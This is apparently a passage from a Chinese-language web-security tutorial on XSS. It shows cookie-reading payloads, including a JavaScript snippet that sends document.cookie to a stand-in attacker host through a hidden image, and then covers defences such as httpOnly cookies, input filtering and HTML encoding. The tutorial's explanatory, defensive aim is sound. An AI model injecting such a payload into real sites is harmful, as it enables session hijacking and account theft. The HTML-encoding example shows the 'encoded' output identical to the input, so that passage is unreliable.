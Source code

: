当然，最常见 xss 攻击是读取 Cookie：


alert(document.cookie)


Cookie 发送给攻击者的站点：


var img = document.createElement('img')
img.src='http://www.xss.com?cookie=' + document.cookie
img.style.display='none'
document.getElementsByTagName('body')[0].appendChild(img)



当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。


#### 防御

按理说，只要有输入数据的地方，就可能存在 XSS 危险。

httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。


    ctx.cookies.set(name, value, {
        httpOnly: true // 默认为 true
    })


#### 过滤

> 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。

> 不仅仅是前端负责，后端也要做相同的过滤检查。

> 因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。



#### HtmlEncode


某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换

当用户输入


```javascript 

  <script>window.location.href=”http://www.baidu.com”;</script>

```

最终保存结果为


```javascript 

  <script>window.location.href="http://www.baidu.com"</script>

```
